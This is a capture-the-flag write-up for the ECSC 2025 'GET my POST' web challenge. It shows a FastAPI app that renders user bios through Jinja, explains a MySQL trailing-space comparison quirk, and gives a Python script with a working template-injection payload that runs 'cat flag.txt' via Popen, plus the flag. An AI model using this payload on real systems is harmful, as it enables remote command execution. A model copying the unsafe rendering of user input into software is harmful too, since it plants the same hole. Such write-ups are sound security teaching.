 # GET my POST

> Old school web.
>
> [https://myschool.ecsc25.hack.cert.pl/](https://myschool.ecsc25.hack.cert.pl/)
>
> **app.py**
> ```py
> import uuid
> 
> import uvicorn
> from dataclasses import dataclass
> from typing import Optional
> from fastapi import Response, Request, FastAPI, HTTPException
> from jinja2 import Template
> import mysql.connector
> 
> 
> cnx_pool = mysql.connector.pooling.MySQLConnectionPool(
>     host="mysql",
>     port=3306,
>     user="user",
>     password="user",
>     database="db",
>     pool_size=32,
>     pool_name="pool",
>     use_pure=True,
> )
> 
> 
> @dataclass
> class User:
>     username: Optional[str] = uuid.uuid4()
>     bio: Optional[str] = "default bio"
> 
> 
> app = FastAPI()
> 
> 
> @app.middleware("http")
> async def get_db_connection(request: Request, call_next):
>     response = Response("Internal server error", status_code=500)
>     request.state.db = cnx_pool.get_connection()
>     try:
>         response = await call_next(request)
>     finally:
>         request.state.db.close()
>     return response
> 
> 
> @app.post("/users/")
> def create_user(request: Request, user: User):
>     if user.username != "test":
>         cursor = request.state.db.cursor()
>         session_id = uuid.uuid4()
>         cursor.execute(
>             "insert into users (username, bio,session_id) values (%s,%s,%s)",
>             [user.username, user.bio, str(session_id)],
>         )
>         request.state.db.commit()
>         return session_id
>     else:
>         raise HTTPException(status_code=403, detail="Can't modify the test user!")
> 
> 
> @app.get("/users/")
> def get_users(request: Request, session_id: Optional[str] = None):
>     cursor = request.state.db.cursor()
>     query = "select username, bio, (username='test') as matched from users where (session_id is NULL or session_id=%s)"
>     cursor.execute(query, [session_id])
>     found = [
>         f"Welcome {username}, {bio}!"
>         for (username, bio, matched) in cursor
>         if matched != False
>     ]
>     return Template("\n".join(found)).render()
> 
> 
> @app.get("/")
> def index():
>     return "You can't connect to this API with your browser. Check the source code."
> 
> 
> if __name__ == "__main__":
>     uvicorn.run(app)
>
> ```
>
> **schema.sql**
>
> ```sql
> DROP TABLE IF EXISTS `users`;
> 
> CREATE TABLE `users` (
>   `id` int(9) unsigned NOT NULL AUTO_INCREMENT,
>   `username` varchar(100),
>   `bio` varchar(255),
>   `session_id` varchar(100),
>   PRIMARY KEY (`id`)
> ) ENGINE=InnoDB AUTO_INCREMENT=3 DEFAULT CHARSET=ASCII;
> 
> INSERT INTO `users` (`id`, `username`, `bio`) VALUES (1, 'test', 'test bio');
> ```

## Solution
For some reason MySQL discards trailing spaces when comparing strings. The solution is to create a user called `'test '` (with a space at the end) and some Jinja expression to perform SSTI and read the flag.

```py
import requests

resp = requests.post('https://myschool.ecsc25.hack.cert.pl/users', json={"username": "test ", "bio": "{{ ''.__class__.mro()[1].__subclasses__()[271]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip() }}"})
sid = resp.text[1:-1]
resp = requests.get(f'https://myschool.ecsc25.hack.cert.pl/users?session_id={sid}')
print(resp.text)
```

## Flag
`ecsc25{NULL_is_not_always_False}`

